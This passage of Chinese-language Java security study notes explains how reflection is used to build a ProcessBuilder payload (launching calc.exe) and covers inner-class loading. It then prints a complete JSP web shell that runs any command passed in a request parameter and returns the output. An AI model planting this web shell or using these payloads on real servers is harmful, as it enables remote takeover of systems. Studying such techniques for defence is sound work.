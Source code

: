   - 通过 getMethod("start") 获取到start方法，然后 invoke 执行， invoke 的第一个参数就是 ProcessBuilder Object了。
- 那么，如果我们要使用 `public ProcessBuilder(String... command) `这个构造函数，需要怎样用反射执行呢？

  - 这又涉及到Java里的可变长参数（varargs）了。正如其他语言一样，Java也支持可变长参数，就是当你 定义函数的时候不确定参数数量的时候，可以使用 ... 这样的语法来表示“这个函数的参数个数是可变 的”。
  - 对于可变长参数，Java其实在编译的时候会编译成一个数组，也就是说，如下这两种写法在底层是等价 的（也就不能重载）：

    ```java
    public void hello(String[] names) {}
    public void hello(String...names) {}
    ```
  - 也由此，如果我们有一个数组，想传给hello函数，只需直接传即可：

    ```java
    String[] names = {"hello", "world"};
    hello(names);
    ```
  - **那么对于反射来说，如果要获取的目标函数里包含可变长参数，其实我们认为它是数组就行了。**
  - 所以，我们将字符串数组的类 String[].class 传给 getConstructor ，获取 ProcessBuilder 的第二 种构造函数：

    ```java
    Class clazz = Class.forName("java.lang.ProcessBuilder");
    clazz.getConstructor(String[].class)
    ```
  - 在调用 newInstance 的时候，因为这个函数本身接收的是一个可变长参数，我们传给 ProcessBuilder 的也是一个可变长参数，二者叠加为一个二维数组，所以整个Payload如下：

    ```java
    Class clazz = Class.forName("java.lang.ProcessBuilder");
    ((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new
    String[][]{{"calc.exe"}})).start();
    ```

### 内部类

- 反射调用内部类的时候需要使用 `$`来代替.,如com.anbai.Test类有一个叫做Hello的内部类，那么调用的时候就应该将类名写成：`com.anbai.Test$Hello`。[比如fastjson在 checkAutoType 时候就会 先将 `$ `替换成 `.` ](https://github.com/alibaba/fastjson/blob/fcc9c2a/src/main/java/com/alibaba/fa stjson/parser/ParserConfig.java#L1038)
- Java的普通类 C1 中支持编写内部类 C2 ，而在编译的时候，会生成两个文件： C1.class 和 `C1$C2.class` ，我们可以把他们看作两个无关的类，通过 `Class.forName("C1$C2")` 即可加载这个内部类。其他操作都是一样的。

## java本地命令执行函数

> https://x.hacking8.com/?post=293 java payload在线生成

- java提供了命令执行的函数，黑客通常会RCE利用漏洞或者WebShell来执行系统终端命令控制服务器的目的。

- 在Java中我们通常会使用 `java.lang.Runtime`类的 `exec`方法来执行本地系统命令。

  ```jsp
  <%@ page contentType="text/html;charset=UTF-8" language="java" %>
  <%@ page import="java.io.ByteArrayOutputStream" %>
  <%@ page import="java.io.InputStream" %>
  <%
      InputStream in = Runtime.getRuntime().exec(request.getParameter("liudeha")).getInputStream();
      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      byte[] b = new byte[1024];
      int a = -1;
      while ((a = in.read(b)) != -1) {
      	baos.write(b, 0, a);
  	}
  	out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
  %>
  ```
